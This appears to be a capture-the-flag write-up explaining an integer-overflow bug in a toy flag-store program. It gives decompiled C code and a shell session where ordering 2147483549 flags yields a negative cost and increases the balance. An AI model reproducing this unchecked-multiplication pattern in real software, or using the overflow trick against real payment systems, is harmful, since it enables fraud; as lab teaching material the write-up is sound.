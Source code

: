 The critical point to note is in the flag buying section of code where we do not properly validate the users input which causes a situation where we can overflow the integer:

```c
        puts("An Argentinian Flag costs $1000 Argentinian pesos each. How many do you want to buy?");
          numbuy = 0;
          __isoc99_scanf(&DAT_00402268,&numbuy);
          if (0 < numbuy) {
            totalcost = numbuy * 1000;
            printf("\nTotal cost: %d\n",(ulong)totalcost);
            if ((int)MONEY < (int)totalcost) {
              puts("You don\'t have enough funds\n\n");
            }
            else {
              MONEY = MONEY - totalcost;
              printf("\nYour new balance is: %d\n\n",(ulong)MONEY);
            }
```

With some fiddling around I found that we were able to request to purchase `2147483549` Argentinian flags which equates to a total cost of `-99000` which ends up depositing a large sum of cash into our balance. Once we had that we could simply buy the flag.

The whole exploit can be done by hand as such:

```shell
$ ./reto
 ------------------------------------------------
|     Welcome to the Argentinian FLAG Store!!!   |
 ------------------------------------------------

Please login 
---Username: A
---Password: B


Hello A
 ---------------------------------------------------------------------------------------------------------
|   Due to GDPR policies we are going to store this sensitive information in our new imaginary database.   |
 ---------------------------------------------------------------------------------------------------------

Now, tell me what to do: 
---[1] Check balance
---[2] Buy Argentinian Flags
---[3] exit

Select an option: 2
For sale:
[1] An Argentinian Flag
[2] The best Argentinian Flag
1
An Argentinian Flag costs $1000 Argentinian pesos each. How many do you want to buy?
2147483549

Total cost: -99000

Your new balance is: 100100

---[1] Check balance
---[2] Buy Argentinian Flags
---[3] exit

```